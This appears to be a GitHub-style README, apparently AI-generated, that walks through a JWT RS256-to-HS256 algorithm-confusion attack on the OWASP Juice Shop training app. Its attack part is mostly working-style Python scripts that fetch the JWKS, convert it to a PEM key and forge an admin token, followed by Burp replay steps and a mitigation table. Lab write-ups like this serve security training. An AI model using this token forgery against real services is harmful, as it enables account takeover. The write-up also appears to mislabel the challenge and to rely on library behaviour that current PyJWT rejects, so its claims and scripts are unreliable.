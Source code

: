 Absolutely. Here's a **comprehensive, OffSec-grade deep dive** into the exploitation process of the **JWT RS256 to HS256 Downgrade Attack** specifically against the **OWASP Juice Shop "Login Admin"** challenge.

---

## 📁 Directory Structure

```
JWT-RS256-to-HS256-Attack-JuiceShop/
├── 01_get_jwks.py           # Downloads and parses the JWKS
├── 02_jwks_to_pem.py        # Converts JWKS to PEM public key
├── 03_forge_token.py        # Crafts HS256 token using RSA public key as HMAC key
├── public.pem               # Output public key used for signing
├── forged_token.txt         # Output token (admin@juice-sh.op)
├── README.md                # Full documentation
```

---

## 🔽 Step 1: Download the JWKS

### 🔧 `01_get_jwks.py`

```python
import requests
import json

url = "http://localhost:3000/.well-known/jwks.json"
response = requests.get(url)
jwks = response.json()

with open("jwks.json", "w") as f:
    json.dump(jwks, f, indent=2)

print("[+] JWKS saved to jwks.json")
```

📌 Output: `jwks.json` file containing modulus (`n`) and exponent (`e`) of the RSA public key.

---

## 🔁 Step 2: Convert JWKS → PEM

### 🔧 `02_jwks_to_pem.py`

```python
import base64
import json
from cryptography.hazmat.primitives.asymmetric import rsa
from cryptography.hazmat.primitives import serialization
from cryptography.hazmat.backends import default_backend

# Read JWKS
with open("jwks.json", "r") as f:
    jwks = json.load(f)

key = jwks['keys'][0]

# Decode modulus and exponent
n = int.from_bytes(base64.urlsafe_b64decode(key['n'] + '=='), 'big')
e = int.from_bytes(base64.urlsafe_b64decode(key['e'] + '=='), 'big')

# Build public key object
public_numbers = rsa.RSAPublicNumbers(e, n)
public_key = public_numbers.public_key(default_backend())

# Serialize to PEM
pem = public_key.public_bytes(
    encoding=serialization.Encoding.PEM,
    format=serialization.PublicFormat.SubjectPublicKeyInfo
)

with open("public.pem", "wb") as f:
    f.write(pem)

print("[+] Public key saved to public.pem")
```

📌 Output: `public.pem` → the RSA public key, now usable as an HMAC secret.

---

## 🧪 Step 3: Forge JWT Using HS256

### 🔧 `03_forge_token.py`

```python
import jwt

with open('public.pem', 'rb') as f:
    public_key = f.read()

# JWT payload with escalated privilege
payload = {
    "email": "admin@juice-sh.op"
}

# Create HS256 token signed with public key as secret
token = jwt.encode(payload, public_key, algorithm='HS256')

print(f"[+] Forged token:\n{token}")

with open("forged_token.txt", "w") as f:
    f.write(token)
```

📌 Output: `forged_token.txt` → the forged token that grants **admin access**.

---

## 📍 Step 4: Replay via Burp Suite (Manual)

### 🛠️ Steps:

1. Open Burp and go to **Proxy > Intercept**.
2. Intercept a login request using a regular user account.
3. In the HTTP request headers, locate:

   ```
   Authorization: Bearer eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9...
   ```
4. Replace the JWT value with the contents of `forged_token.txt`.

   ```
   Authorization: Bearer <your_forged_token>
   ```
5. Forward the request.

### 📊 Result:

* You’ll now be authenticated as **[admin@juice-sh.op](mailto:admin@juice-sh.op)**.
* Navigate to `/score-board` to confirm that **“Login Admin” challenge** is marked **SOLVED ✅**.

---

## 🔐 How the Exploit Works – Deep Dive

### 📌 Cryptographic Misuse

* **RS256** = RSA + SHA-256 (asymmetric)
* **HS256** = HMAC + SHA-256 (symmetric)
* If the backend does this:

  ```js
  jwt.verify(token, key)
  ```

  without checking:

  ```js
  if (alg !== 'RS256') reject();
  ```

  then an attacker can:

  * Change the `alg` in JWT header to `"HS256"`
  * Use the RSA **public key** as an **HMAC secret**
  * Generate a valid signature

---

### 🔥 Impact

| Vector               | Description                                   |
| -------------------- | --------------------------------------------- |
| Privilege Escalation | Login as `admin@juice-sh.op` without password |
| Broken AuthN         | Compromises JWT-based session validation      |
| Signature Forgery    | Creates tokens that pass backend verification |

---

## 🛡️ Real-World Mitigations

| Control                          | Purpose                                        |
| -------------------------------- | ---------------------------------------------- |
| 🔒 Enforce algorithm server-side | Don’t allow client to define `alg`             |
| 🔍 Validate library behavior     | Use libraries that hardcode expected algorithm |
| 🚫 Avoid key misuse              | RSA public keys must **never** be used as HMAC |
| 📜 Audit `.well-known/jwks.json` | If exposed, validate access control & intent   |

---

## 🧷 Final Notes

* This method simulates **real-world cryptographic abuse** and is useful in Red Team scenarios where **JWT handling is improperly implemented**.
* The technique is **critical** in penetration testing JWT auth flows.

---

## ✍️ Author

**SHajohn16**
🔗 GitHub: [https://github.com/Shajohn16](https://github.com/Shajohn16)
🎓 OSCP | OSWE (in-progress) | WAPT | Exploit Dev Focused

---
![OWASP JUICE SHOP - LOGIN ADMIN](https://github.com/user-attachments/assets/1d11c39a-c29a-4b9c-9cc3-8d5b8c4ac891)
